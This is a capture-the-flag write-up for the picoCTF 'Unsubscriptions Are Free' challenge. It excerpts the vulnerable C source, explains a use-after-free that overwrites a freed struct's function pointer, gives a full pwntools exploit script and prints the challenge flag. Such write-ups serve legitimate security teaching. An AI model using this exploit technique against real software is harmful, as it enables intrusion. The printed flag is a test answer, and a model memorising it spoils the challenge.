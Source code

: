 # Unsubscriptions Are Free

## Description

Author: thelshell

Check out my new video-game and spaghetti-eating streaming channel on Twixer! program and get a flag. source nc mercury.picoctf.net 48259

## Challenge

We are given an interactive prompt where we can interact with our account and perform various actions.
The program determines which function to call by storing the pointer to that function in a struct, based on the option selected.

### Mitigations

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

### Source code

```c
typedef struct {
	uintptr_t (*whatToDo)();
	char *username;
} cmd;

char choice;
cmd *user;

void hahaexploitgobrrr(){
 	char buf[FLAG_BUFFER];
 	FILE *f = fopen("flag.txt","r");
 	fgets(buf,FLAG_BUFFER,f);
 	fprintf(stdout,"%s\n",buf);
 	fflush(stdout);
}

...

void s(){
 	printf("OOP! Memory leak...%p\n",hahaexploitgobrrr);
 	puts("Thanks for subsribing! I really recommend becoming a premium member!");
}

...

void leaveMessage(){
	puts("I only read premium member messages but you can ");
	puts("try anyways:");
	char* msg = (char*)malloc(8);
	read(0, msg, 8);
}

void i(){
	char response;
  	puts("You're leaving already(Y/N)?");
	scanf(" %c", &response);
	if(toupper(response)=='Y'){
		puts("Bye!");
		free(user);
	}else{
		puts("Ok. Get premium membership please!");
	}
}

...

int main(){
	setbuf(stdout, NULL);
	user = (cmd *)malloc(sizeof(user));
	while(1){
		printMenu();
		processInput();
		//if(user){
			doProcess(user);
		//}
	}
	return 0;
}
```

## Solution

The `user` pointer is never cleared after deleting an accounter.
We have a use after free, as it will continue to call `doProcess(user)` after deleting the account.

The `cmd` struct has a function pointer at the top of the heap chunk, which determines which function is called.

There is a function that leaks the address of the win function, `hahaexploitgobrrr`.

There is a function that writes 8 bytes onto the heap.

If we delete our account, it will write these 8 bytes into memory previously occupied by the `user`.
The contents will overwrite the function pointer, however, this pointer is still being used to call other functions from `main`.

We can leak the win function address, then delete our account and write the address to the heap to jump to it.

## Exploit

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host mercury.picoctf.net --port 48259 vuln
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('vuln')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'mercury.picoctf.net'
port = int(args.PORT or 48259)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    p = process([exe.path] + argv, *a, **kw)
    if args.GDB:
        gdb.attach(p, gdbscript=gdbscript)
    return p

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
context.terminal=['tmux', 'splitw', '-h']
gdbscript = '''
b*0x08048d7c
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     i386-32-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x8048000)

io = start()

io.recvuntil('(e)xit\n')
io.sendline('S')
io.recvuntil('...')
leak = int(io.recvuntil('\n').decode(), 0)
log.success('leak: ' + hex(leak))

io.recvuntil('(e)xit\n')
io.sendline('I')
io.recvuntil('?\n')
io.send('Y')

io.recvuntil('(e)xit\n')
io.sendline('L')
io.recvuntil(':\n')
io.send(p64(leak))

io.interactive()
```

## Flag

`picoCTF{d0ubl3_j30p4rdy_cff1f12d}`

